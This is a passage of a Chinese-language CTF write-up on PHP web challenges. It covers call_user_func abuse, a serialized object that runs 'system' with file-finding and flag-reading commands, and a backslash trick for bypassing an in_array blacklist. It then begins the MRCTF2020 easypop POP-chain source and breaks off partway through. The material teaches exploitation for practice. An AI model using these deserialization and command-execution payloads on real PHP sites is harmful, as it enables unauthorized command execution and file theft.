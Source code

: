 ```php
    call_user_func()一种调用函数的方法,假设$a=var_dump,$b=abc,这种调用方法就相当于$a($b)，即var_dump(abc)
```

首先获取源码

```url
    func=file_get_contents&p=index.php
```

代码审计后发现，过滤了大部分函数，但是没有过滤`unserialize()`,所以反序列化，这样就能绕过黑名单检测从而执行系统命令

构造序列化的代码

```php
    <?php

    class Test{
        var $p = "ls /";  //查看flag是否在根目录
        // var $p = "find / -name 'flag*'";  //查找flag
        // var $p = "cat /tmp/flagoefiu4r93";  //获取flag
        var $func = "system";
    }
    $a = new Test();
    $b = serialize($a);
    echo($b);
    ?>
```

***这道题也有另一种解法***

在php中，函数加上\号不会影响函数本身，因为in_array函数过滤不够严谨，所以我们可以利用加上\号来绕过该函数，直接命令执行，构造payload，先找一下flag位置

```url
    func=\system&p=p=find / -name flag*
```

### 类型三--反序列化pop链

#### MRCTF2020 easypop(PHP魔术方法+反序列化)

- 源码

    ```php
        <?php
        //flag is in flag.php
        //WTF IS THIS?
        //Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
        //And Crack It!
        class Modifier {
            protected  $var;
            public function append($value){
                include($value);
            }
            public function __invoke(){
                $this->append($this->var);
            }
        }
        class Show{
            public $source;
            public $str;
            public function __construct($file='index.php'){
                $this->source = $file;
                echo 'Welcome to '.$this->source."<br>";
            }
            public function __toString(){
                return $this->str->source;
            }
        